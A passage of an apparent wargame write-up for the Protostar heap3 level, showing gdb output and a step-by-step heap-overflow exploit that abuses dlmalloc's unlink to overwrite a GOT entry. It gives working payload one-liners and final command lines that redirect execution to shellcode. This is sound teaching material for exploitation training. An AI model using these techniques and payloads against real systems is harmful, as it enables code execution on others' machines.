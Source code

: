         ```
        (gdb) x winner
        0x8048864 <winner>:	0x83e58955
        
        (gdb) disassemble 0x8048790
        Dump of assembler code for function puts@plt:
        0x08048790 <puts@plt+0>:	jmp    *0x804b128
        0x08048796 <puts@plt+6>:	push   $0x68
        0x0804879b <puts@plt+11>:	jmp    0x80486b0
        
        (gdb) disassemble 0x804b128
        Dump of assembler code for function _GLOBAL_OFFSET_TABLE_:
        0x0804b0e8 <_GLOBAL_OFFSET_TABLE_+0>:	adc    $0xb0,%al
        ```

- Proof-of-Concept won't work as it contains null bytes which will be ignored by strcpy() when we attempt to overflow the buffer with the above values. Solution? Use 0xfffffffc to get negative values! 

- For our final working exploit:

    1. We can set the size of the *c memory chunk to 0x65 to bypass the first if-block at line 4093, enter the else-if block at line 4114 and skip the if-block at line 4120. We will exploit strcpy(*b) for this:

        `python -c "print ('B'* 36 + '\x65')"` (36 derived from 32 byte char buffer + 4 byte to overflow to the prevsize of *c chunk before finally overwriting the size of *c chunk with 0x65)

    2. We obtain the address of the next chunk at 0x804c0b4 and the size of the next chunk, before entering the if-block at line 4127

    3. To enter the if-block at line 4132, we need to ensure the the next chunk is not in use. To do so, we need to check that the last bit of the size of the next next chunk is not set. To do this, we would need to ensre that the size of the next chunk is 0xfffffffc to get a -4 when we add the size of the next chunk and the address of the next chunk when we run inuse_bit_at_offset (see below for more explanation). After doing so we can then run the unlink() function call as in line 4133 on the next chunk with reference to memory chunk at *c. We need to set the fd and bk pointers for the next chunk appropriately as in our initial exploit so that we can overwrite the GOT table and obtain code execution. Instead of storing and calling our code at 0x0804c010, we will call store and call our code at 0x0804c014. This is because when we run free(*a), we can expect for it to mangle with out exploit stored near to the memory location of *a. We will exploit strcpy(*c) for this:

        `python -c "print('C'*92+'\xcf\xff\xff\xff\xfc\xff\xff\xff\x1c\xb1\x04\x08\x14\xc0\x04\x08')"` (92 is derived from 100 - 8, 4 bytes from the size and 4 bytes prevsize memory addresses)

    4. Once we obtain code redirection and execution by overwriting the GOT table, we can insert our shellcode into our heap at 0x0804c014. We can exploit strcpy(*a) for this:

        `python -c "print('A'*12+'\xb8\x64\x88\x04\x08\xff\xd0')"`

- Final Answers:

    `/opt/protostar/bin/heap3 $(python -c "print('A'*12+'\xb8\x64\x88\x04\x08\xff\xd0')") $(python -c "print('B'*36+'\x65')") $(python -c "print('C'*88+'D'*4+'\xfe\xff\xff\xff\xfc\xff\xff\xff\x1c\xb1\x04\x08\x14\xc0\x04\x08')")`

    `/opt/protostar/bin/heap3 $(python -c "print('A'*12+'\xb8\x64\x88\x04\x08\xff\xd0')") $(python -c "print('B'*36+'\x65')") $(python -c "print('C'*88+'D'*4+'\xfc\xff\xff\xff\xfc\xff\xff\xff\x1c\xb1\x04\x08\x14\xc0\x04\x08')")`
